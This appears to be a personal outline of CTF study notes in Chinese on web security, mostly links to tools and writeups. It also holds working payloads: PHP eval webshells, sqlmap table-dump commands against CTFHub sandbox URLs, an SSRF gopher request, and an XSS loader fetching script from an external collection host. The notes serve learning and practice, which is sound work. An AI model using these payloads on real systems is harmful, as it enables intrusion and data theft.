

- Web
	- 信息泄露
		- 文件泄露
			- 目录遍历
				- 使用 [dirsearch](https://github.com/maurosoria/dirsearch) 目录扫描
			- 解析对应泄露的文件常见的有Git，SVN，VIM缓存，.DS_Store 文件，可以用 读取工具
		- 各类编程语言框架info
			- [PHPINFO](https://blog.csdn.net/qq_37450949/article/details/119535420)
			- [1000php](https://github.com/Xyntax/1000php)
				- 1000个PHP代码审计案例 (2016.7以前乌云公开漏洞)
			- [SpringBootVulExploit](https://github.com/LandGrey/SpringBootVulExploit)
	- 密码口令
		- 弱口令
			- 使用 [[Burpsuite Pro 2022.2.2]]进行爆破
			- 可参考CTFHUB [弱口令](https://writeup.ctfhub.com/Skill/Web/%E5%AF%86%E7%A0%81%E5%8F%A3%E4%BB%A4/f6QQk4oixo5X2ZdsUgC7Wo.html)writeup
		- 默认口令
			- [[常见web系统默认口令总结]]
		-
	- SQL注入
		- 使用 [sqlmap](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)
	- XSS
	  collapsed:: true
		- 反射
			- 测试
				- ``` js
				  				  <script>alert(1)</script>
				  ```
			- Xss 平台 [xss.pt](https://xss.pt/xss.php)
				- 获得Xss代码
				- ``` js
				  				  <sCRiPt sRC=//xss.pt/kwX9></sCrIpT>
				  ```
	- SSRF
		- URL伪协议有如下这些：
			- file:///
			- dict://
			- sftp://
			- ldap://
			- tftp://
			- gopher://
				- ```post
				  POST /flag.php HTTP/1.1
				  Host: 127.0.0.1:80
				  Content-Length: 36
				  Content-Type: application/x-www-form-urlencoded
				  
				  key=ba1ece4536809bb43a56d286d059bd18
				  
				  
				  ```
- ---
- 网络安全整体的文章
	- [信息安全、CTF 入门与学习方法笔记（持续更新）](https://marlous.github.io/2018/12/09/%E4%BF%A1%E6%81%AF%E5%AE%89%E5%85%A8%E3%80%81CTF%20%E5%85%A5%E9%97%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0%E6%96%B9%E6%B3%95%E7%AC%94%E8%AE%B0%EF%BC%88%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0%EF%BC%89/#5-CTF-%E5%86%85%E5%AE%B9%E3%80%81%E8%B5%84%E6%96%99%E3%80%81%E5%B7%A5%E5%85%B7%E3%80%81%E6%BC%94%E7%BB%83%E5%B9%B3%E5%8F%B0)
	- [CTF入门资料](https://blog.csdn.net/weixin_39664643/article/details/108315722)
	- [一个WIKI](https://hackmd.io/@Ov16q5H6T3CZG6TE4dlqrA/BJJk2x3N7#XXE)
	- [俺自己的 CTF 常用工具使用 & 初学经验整理](https://zhangmaimai.com/2021/10/30/max-ctf-tools-and-exp/)
	- [2020年收集的渗透测试进阶学习资料](https://www.cnhackteam.org/topic/1001/?btwaf=43553764)
	- [又一个wiki](https://ctf-wiki.org/)
	- [Security-Data-Analysis-and-Visualization](https://github.com/404notf0und/Security-Data-Analysis-and-Visualization#Web%E5%AE%89%E5%85%A8%E7%9F%A5%E8%AF%86%E5%A4%A7%E7%BB%BC%E5%90%88)
- 工具类型的网站
	- [CTFTools](https://ctftools.com/down/)
	- [CTF编码](http://www.hiencode.com/)
	- [Personal CTF Toolkit](https://github.com/Harmoc/CTFTools)
	- [渗透师导航](https://www.shentoushi.top/knowledge)
	- [[常见web系统默认口令总结]]
- Writeups
	- [Writeups](https://github.com/susers/Writeups)
	- [全国大学生信息安全竞赛真题（CTF）](https://blog.csdn.net/Toufahaizai/article/details/89002051)
	- [Hacker Game 2021 Writeups](https://github.com/USTC-Hackergame/hackergame2021-writeups)
	  collapsed:: true
		- 中科大信息安全大赛团队在 GitHub 上开源的赛事题解：Hacker Game 2021 Writeups
		- 主要包含官方与选手们的题目描述、文件、源代码、技术解析文章等内容。包含多种解题思路与实现技巧，颇有参考价值。
	- [CTF-Site](https://github.com/myndtt/CTF-Site)
	- [合天网安实验室](https://www.hetianlab.com/pages/CTFLaboratory.jsp)
- 博客
  collapsed:: true
	- [BACKUP](https://4hou.win/wordpress/?cat=3388)
- 工具
	- 虚拟机
	  collapsed:: true
		- [[VMWare]]
	- Web
	  collapsed:: true
		- 扫描工具
			- [wappalyzer](https://www.wappalyzer.com/installed?utm_source=installed&utm_medium=extension&utm_campaign=wappalyzer) 网站信息扫描
			  id:: 62aae34b-60dd-4818-90e4-ae6b89c93527
			- [cansina](https://github.com/deibit/cansina) 目录扫描
				- ```shell
				  安装依赖
				  pip install -r requirements.txt
				  扫描
				  python3 cansina.py -u <site_url> -p <payload_file>
				  ```
			- [dirsearch](https://github.com/maurosoria/dirsearch) 目录扫描
			  id:: 62ab25ff-5e43-43d0-a5eb-355de89ccdad
				- ```shell
				  py dirsearch.py -u http://challenge-f0c5939453483692.sandbox.ctfhub.com:10800/
				  ```
		- 读取工具
		  id:: 62ab25ff-2e32-4c2a-912f-a5d72c3149fe
			- [GitHack](https://github.com/lijiejie/GitHack) git泄露读取文件
			  collapsed:: true
				- ```shell
				  python GitHack.py http://www.openssl.org/.git/
				  ```
				- git常用语句
					- 查看日志
					  collapsed:: true
						- ```shell
						  git log
						  ```
					- 查看commit 内容
						- ```xshell
						  git diff commitID
						  ```
					- 查看stash
					  collapsed:: true
						- ```shell
						  git stash list
						  ```
					- 出stash
					  collapsed:: true
						- ```shell
						  git stash pop
						  ```
					- 查看stash的hash文件
					  collapsed:: true
						- ```shell
						  cat .git/refs/stash
						  ```
			- [dvcs-ripper](https://github.com/kost/dvcs-ripper)
			  collapsed:: true
				- docker docker环境会报错
				  collapsed:: true
					- ```shell
					  docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-svn.pl -v    -u  http://challenge-b462cb7bd1c09880.sandbox.ctfhub.com:10800
					  ```
				-
			- [dsstore](https://github.com/gehaxelt/Python-dsstore.git) 解析Dstore文件
		- SQL注入
			- [sqlmap](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)
			  id:: 62ab25ff-9202-4bcf-b592-72c63bc1624b
				- ~~需要安装 [visual-cpp-build-tools](https://visualstudio.microsoft.com/zh-hans/visual-cpp-build-tools/)~~
				  collapsed:: true
					- 
				- id:: 62ab25ff-4d7f-45ea-823b-3d3e9be200af
				  ```shell
				  git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
				  ```
				- [简易教程](https://www.cnblogs.com/0yst3r-2046/p/10957616.html)
				- [用户手册](http://drops.xmd5.com/static/drops/tips-143.html)
				- 列出表名
					- ```sh
					  python sqlmap.py -u "http://challenge-318d8691ca4cc7b3.sandbox.ctfhub.com:10800/?id=1"  --tables --tamper "space2comment.py"
					  ```
				- 列出列名
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
					  ```
				- 查数据
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
					  ```
				- 过滤空格
					- ` /**/、()、%0a`
					- ```sh
					  -1/**/union/**/select/**/database(),2 
					  ```
					- ```sh
					  python sqlmap.py -u "http://challenge-318d8691ca4cc7b3.sandbox.ctfhub.com:10800/?id=1" --dbs --tamper "space2comment.py"
					  ```
		- 文件上传
			- 1.确定环境
			  collapsed:: true
				- ((62aae34b-60dd-4818-90e4-ae6b89c93527))
			- 2.上传对应木马
				- PHP
					- ```PHP
					  <?php eval(@$_POST['a']); ?>
					  ```
					- ```PHP
					  <?php eval(@$_GET['a']); ?>
					  ```
			- 3.访问接口
				- ```curl
				  http://challenge-15ae0dbdc51ad51b.sandbox.ctfhub.com:10800/upload/sad.php?a=phpinfo();
				  ```
		- 抓包工具
			- [[Burpsuite Pro 2022.2.2]]
			  collapsed:: true
				- [Burp Suite 使用介绍](http://drops.xmd5.com/static/drops/tools-1548.html)
		- 网站管理工具
			- [AntSword](https://github.com/AntSwordProject/AntSword-Loader)
			-
		-
	- Wisc
		- 图片隐写
		  collapsed:: true
			- [BlindWaterMark](https://github.com/chishaxie/BlindWaterMark)
			  collapsed:: true
				- 盲水印 by python
		- 流量分析
			- [wireshark](https://www.wireshark.org/download.html)
	- 字典
		- [fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts)